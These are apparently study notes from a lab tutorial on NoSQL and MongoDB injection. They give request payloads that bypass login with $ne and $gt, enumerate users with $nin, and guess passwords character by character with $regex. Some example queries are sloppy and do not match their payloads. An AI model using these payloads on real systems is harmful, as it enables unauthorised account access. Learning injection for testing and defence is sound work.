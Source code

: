  NoSQL
## Introduction to NoSQL databases

NoSQL databases are non-relational meaning they do not store information in regular tabular manner. Key-value(An index and value stored at the indexed location), Graph(Data stored in graph structure), Document(have key-value elements with metadata), xml Databases are a subclass), Wide Column Store(tabular but irregular in width, from row to row). See [Wiki](https://en.wikipedia.org/wiki/NoSQL) further information. For [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

## MongoDB
[MongoDB](https://www.mongodb.com/) is JSON-like, document store type NoSQL database. Its data is a JSON-like structure called a **Document**. Documents are stored in an associative array with an arbitrary number of fields. These can be store heirarchically called **Collections**. Collections are the equivalent of tables in relational databases; multiple collections are grouped in **databases**. 

I uses NoSQL queries, not SQL-like:
```nosql
['KEY' => 'VALUE']
['KEY' => 'VALUE', 'KEY' => 'VALUE']
['KEY' => ['$lt'=>'1337']]` # Logic can eb used to filter
```
Although keys in this instance can be strings, properties to which the value is some string relationed to it storage key: `["username" : "admin"]

#### MongoDB injection
Due NoSQL queries requiring nested associative arrays a NoSQL injection must be capable of injecting arrays into the application.

This will authenication bypass to the first user in the database:  
`user[$ne]=xxxx&pass[$ne]=yyyy` or `user[$gt]=xxxx&pass[$gt]=yyyy`  
query performed:  
`['username'=>['$ne'=>['yyyy'] ], 'password'=>['$ne'=>'yyyy']]`
 To get the nth users, create filter with $nin by specifying criteria where the desired documents have some field, not in a list of values:  
 `user[$nin][]=xxxx&pass[$ne]=yyyy`  
 The query performed:  
 `['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'00001111']]`
 Repeat by adding `&user[$nin][]=`
  
  For passwords `$regex` operator, with a regex the number in curly brackets the length of a wildcard password:  
  `user=admin&pass[$regex]=^.{7}$`
  Then to fuzz with another `[$regex]=^a......$`; if you login the first letter is `a` if error is not. 


## Reference
[TryHackMe](https://tryhackme.com/room/nosqlinjectiontutorial)
[Wiki](https://en.wikipedia.org/wiki/NoSQL)